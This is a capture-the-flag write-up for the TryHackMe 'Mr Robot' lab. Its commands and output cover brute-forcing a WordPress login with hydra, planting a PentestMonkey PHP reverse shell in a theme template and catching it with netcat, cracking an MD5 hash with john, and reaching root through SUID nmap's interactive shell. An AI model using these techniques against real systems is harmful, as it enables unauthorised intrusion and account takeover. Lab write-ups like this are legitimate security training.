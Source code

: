 https://tryhackme.com/room/mrrobot

**Basic enumeration**

    22/tcp  closed ssh
    80/tcp  open   http     Apache httpd
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Apache
    443/tcp open   ssl/http Apache httpd
    |_http-title: Site doesn't have a title (text/html).
    | ssl-cert: Subject: commonName=www.example.com
    | Not valid before: 2015-09-16T10:45:03
    |_Not valid after:  2025-09-13T10:45:03
    |_http-server-header: Apache

So it looks like we are working with a standard webserver so we should start to more enumerations

    gobuster dir -u http://10.10.237.76/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -x txt,php

    nikto -h 10.10.237.76  
    
We find a robots.txt file so we should investigate that:

    User-agent: *
    fsocity.dic
    key-1-of-3.txt
    
    └─# cat key-1-of-3.txt 
    {{redacted}}

Lets also grab that .dic file

    wget http://10.10.237.76/fsocity.dic   

That is a big file! let us take a look at some of the entries

        └─# head fsocity.dic                                                                          
    true
    false
    wikia
    from
    the
    now
    Wikia
    extensions
    scss
    window
    
    └─# wc -l fsocity.dic 
    858160 fsocity.dic
    
    └─# sort -u fsocity.dic > sorted.dic

    └─# wc -l sorted.dic
    11451 sorted.dic

Whew that is much more reasonable to workwith, My bet is that this is a password/username list

**Initial Foothold**
    
Naviagate to the following url based on the gobuster scan
        http://10.10.237.76/wp-login
        
Pulling up burpsuite lets capture the request for a log in and feed that to hydra for some online brute forcing

        POST /wp-login.php HTTP/1.1

        Host: 10.10.237.76

        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

        Accept-Language: en-US,en;q=0.5

        Accept-Encoding: gzip, deflate

        Content-Type: application/x-www-form-urlencoded

        Content-Length: 103

        Origin: http://10.10.237.76

        Connection: close

        Referer: http://10.10.237.76/wp-login

        Cookie: s_cc=true; s_fid=30B417277AC07EA9-1832D8BCFA333922; s_nr=1661289741763; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check

        Upgrade-Insecure-Requests: 1



        log=user&pwd=passpass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.237.76%2Fwp-admin%2F&testcookie=1

         
Alright we have a post form here, so we can now shape our hydra command

        hydra -L sorted.dic -p notarealpassword 10.10.237.76 http-post-form "/wp-login.php:log=user&pwd=passpass&wp-submit=Log&testcookie=1:Invalid"

-L is the list we will use for the username

-p is the single password to be used

http-post-form = the type of attack to perform

 "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log&testcookie=1:Invalid" = Path of webiste, POST body information, fail conditions (txt)

Here we find a user name 'elliot' we can run hydra again with pretty much the same parameters and arguments, except this time we will change the -L to -l to indicate a single username to try and change -p to -P and define the same sorted list we used before

        hydra -l {{redacted}} -P sorted.dic 10.10.175.151 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log&testcookie=1:incorrect"

        [80][http-post-form] host: 10.10.175.151   login: {{redacted}}   password: {{redacted}}

Now that we have both a username and password let us login and figure out what we are dealing with

We are working with wordpress verison 4.1.31 and we have access to edit the templates and themes for pages. From here we can upload the PenTestMonkey PHP script to a 404.php template page and then navigate to a nonexistant endpoint on the webserver to trigger the php script. Prior to triggering the script, we will start up our netcat listener on the port we defined in the pentestmonkey script

        nc -lnvp 1337
        
                connect to [10.9.2.110] from (UNKNOWN) [10.10.175.151] 37713
        Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
         14:25:35 up  1:16,  0 users,  load average: 0.00, 0.49, 2.53
        USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
        uid=1(daemon) gid=1(daemon) groups=1(daemon)
        sh: 0: can't access tty; job control turned off
        $ 


Once we navigate around a bit we find a user robot in the home directory with the second key that we cannot read with our current permissions, additionally there is a password.raw-md5 that we can read so lets grab that and bring it back to our attacker machine\

        daemon@linux:/home/robot$ cat password.raw-md5
        cat password.raw-md5
        {{redacted}}
        
 Passing that hash into john we receive the following output:

        ┌──(root💀kali)-[/home/kali/mrrobot]
        └─# john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5                          1 ⨯
        Using default input encoding: UTF-8
        Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
        Warning: no OpenMP support for this hash type, consider --fork=4
        Press 'q' or Ctrl-C to abort, almost any other key for status
        {{redacted}} 


Lets change users and read that key file

        robot@linux:~$ cat key-2-of-3.txt
        cat key-2-of-3.txt
        {{redacted}}

Now to see if we can escilate futher

        robot@linux:~$ find / -type f -perm -04000 2>/dev/null
        find / -type f -perm -04000 2>/dev/null
        /bin/ping
        /bin/umount
        /bin/mount
        /bin/ping6
        /bin/su
        /usr/bin/passwd
        /usr/bin/newgrp
        /usr/bin/chsh
        /usr/bin/chfn
        /usr/bin/gpasswd
        /usr/bin/sudo
        /usr/local/bin/nmap


we have SUID set for nmap which is vulnerable according to gtfo bins using the following commands

        sudo nmap --interactive
        nmap> !sh
        
Performing those commands gets us a root shell.

robot@linux:~$ nmap --interactive
nmap --interactive

        Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
        Welcome to Interactive Mode -- press h <enter> for help
        nmap> !sh
        !sh
        # whoami
        whoami
        root


        # cd /root; ls -la
        cd /root; ls -la
        total 32
        drwx------  3 root root 4096 Nov 13  2015 .
        drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
        -rw-------  1 root root 4058 Nov 14  2015 .bash_history
        -rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
        drwx------  2 root root 4096 Nov 13  2015 .cache
        -rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
        -r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
        -rw-r--r--  1 root root  140 Feb 20  2014 .profile
        -rw-------  1 root root 1024 Sep 16  2015 .rnd
        # cat key-3-of-3.txt
        cat key-3-of-3.txt
        {{redacted}}

